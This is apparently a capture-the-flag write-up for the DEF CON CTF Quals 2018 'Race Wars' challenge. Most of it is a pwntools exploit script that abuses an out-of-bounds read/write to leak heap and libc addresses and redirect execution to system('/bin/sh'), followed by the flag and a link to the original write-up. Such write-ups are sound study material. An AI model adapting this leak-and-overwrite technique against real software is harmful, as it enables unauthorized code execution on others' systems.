 ```python  

edit_tires(0xffff, 0xffff, 0xffff, 0xffff)

def write_byte(offset, value):  
   edit_transmission(offset, ord(value))

def read_byte(offset):  
   return chr(edit_transmission(offset, 0, False))

read_qword = lambda offset : u64(''.join(map(read_byte, range(offset,
offset+8))))

heap_leak = read_qword(-48)  
bin_offset = 0x400000 - heap_leak - 0x38

puts = read_qword(bin_offset + 0x203020)  
libc_base = puts - libc.symbols['puts']

system = libc_base + libc.symbols['system']  
binsh = libc_base + libc.search('/bin/sh\x00').next()

scratch = bin_offset + 0x203100  ## offset to 0x603100  
print "scratch : " + hex(scratch)

def write_qword(offset, value):  
   pk = p64(value)  
   for i in range(8):  
       write_byte(offset+i, pk[i])

write_qword(scratch, system)  
write_qword(scratch+8, binsh)  
write_qword(scratch+16, 0)

write_qword(-128, 0x603100)

menu(6)

p.interactive()

```

### Johnny thinks he's good, johnny just got pwned !

Flag: `OOO{4 c0upl3 0f n1554n 5r205 w0uld pull 4 pr3m1um 0n3 w33k b3f0r3 r4c3
w4rz}`

Original writeup
(https://mhackeroni.it/archive/2018/05/20/defconctfquals-2018-all-
writeups.html#race-wars).